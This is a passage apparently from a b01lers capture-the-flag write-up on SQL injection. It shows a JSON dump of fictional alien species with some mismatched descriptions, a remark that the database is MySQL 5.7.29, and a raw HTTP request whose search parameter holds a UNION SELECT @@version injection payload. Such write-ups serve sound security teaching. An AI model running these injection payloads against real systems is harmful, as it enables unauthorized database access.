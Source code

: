 [["Advent","Humanoid"],["Aras",""],["Arburian Pelarota","Functionally extinct due to the destruction of their home planet Arburia, they are bulky yellow aliens that can curl into a ball, much like apillbug, and are very hard to damage in ball form, and they use this to crush enemies either by bouncing around or rolling over them"],["Baalols",""],["Bailies","Machine race that conquered Earth"],["Beings of the Extra Terrestrial origin which is Adversary of human race",""],["Brain Dogs",""],["Brikar",""],["Briori",""],["Cthulhi",""],["Daxamites","Humanoid"],["Deep Ones","Fish-like humanoids who serve and worship the Great Old Ones known as Father Dagon and Mother Hydra."],["Defiance","band of many different races"],["Delvians","Humanoid - Similar to humans in appearance, but evolved from plants. Blue, bald, sensitive to sunlight, procreate through air-borne spores."],["Demiurg",""],["Denobulans","Humanoid"],["Dom Kavash",""],["Doog","Reptiloid with canine features. Extremely dull-witted."],["Dremer",""],["Elgyem","Maintain Halo Rings, but are not officially part of the Covenant. Large, pink, squid like creatures. No real threat to Humanity other than maintaining the Halo Rings, whicharea threat to humanity."],["Eywa",""],["Festival","An evil race of bugs that live in the Firebug hive inside of the Lavarynth."],["Gashlai","Gaseous humanoids, they can either exist in gaseous mediums (such as gas pipes in Victorian Households) or inside the corpses of others."],["G'keks",""],["Gnaar",""],["Gowachin",""],["Grendarl","Intelligent bipedal species known for their scavenging, hoarding, and trading. Though not a violently aggressive species they are very fond of human blood."],["Gretchin",""],["Grogs","Humanoid"],["Hoix",""],["Hooloovoo","Ape-like reptilian carnivores"],["Hoon",""],["Jem'Hadar",""],["Jotoki","Their skin is dull yellow, with light brown markings and have beady eyes. Only male Joozians have been shown."],["Kafers","Humanoid"],["Kig-yar",""],["Knnn",""],["Lance Corporal Dororo",""],["Leerans",""],["Liir","Gelatinous, shapeshifting creatures, they are carnivorous in nature, more specifically preying on elderly humans. They are fond of high levels of heat, but are weak to and deathly afraid of water."],["Little Guys",""],["Macra","Saber Tyrant"],["Merseians","millipede-like"],["Micronoids",""],["Mon Calamari",""],["Moroks",""],["Mutons",""],["Nemet","Humanoid, completely grey."],["Nicassar",""],["Ood",""],["Orandoans","Humanoid, Ascended to a higher plain of existence in non-corporial form"],["Overlords",""],["P'lod",""],["Polymorph",""],["The Prin","Humanoid; formidable ancient race of mysterious origin; reside primarily on Phase World, center of the Three Galaxies; possess phase powers, enabling manipulation of physical and dimensional space; generally indifferent to anything that does not pose a threat to themselves or the cosmos as a whole."],["Q",""],["Remans",""],["Rodians","Humanoid"],["Sathar",""],["Scrin","Humanoid. Genetically engineered offshoot of humans, harvested from Earth 27,000 years ago. Lower heat resistance than humans, but double the average life expectancy"],["S\u00e9roni","Arachnid, capable of phase-shifting to turn invisible"],["Shevar",""],["Silicoids",""],["Skedar","Sessile, plant-like beings mounted in personal mechanical vehicles (skrodes)"],["Skinnies",""],["Slylandro","Humanoid"],["Snovemdomas",""],["Species",""],["Syreen","Humanoid"],["Tavleks",""],["Aaamazzarite","City-sized alien spaceship. Nickname given by Cassie Sullivan. They created a series of waves to wipe out humanity and invade Earth."],["Titanide",""],["Traskans","Compare with the earlierflat catsfromRobert A. Heinlein's<a href=/wiki/The_Rolling_Stones_(novel) title=The Rolling Stones (novel)>The Rolling Stones</a>."],["Vorcarian bloodtracker",""],["Xel'Naga",""],["Yanme'e","Slug-like parasites. They need a host to see, walk, and communicate, and are the main antagonists of the Animorphs series, intent on enslaving other species."],["Yridian","Alternative name for the humanoidIridonianrace whose most distinctive feature is the array of small horns on top of their heads.  Their home planet isIridonia, though they have established many colonies on planets throughout the galaxy.<a href=#cite_note-Wizards-1>[1]</a>The most well known member isDarth Maul."],["1","2"]]
```

At this point, you can discover that the used DBMS is MySQL version 5.7.29.

```
GET /query?search=amazonis_planitia%20union%20select%20%40%40version%2C%201&{}&_=1584147989793 HTTP/1.1
Host: web.ctf.b01lers.com:1001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://web.ctf.b01lers.com:1001/
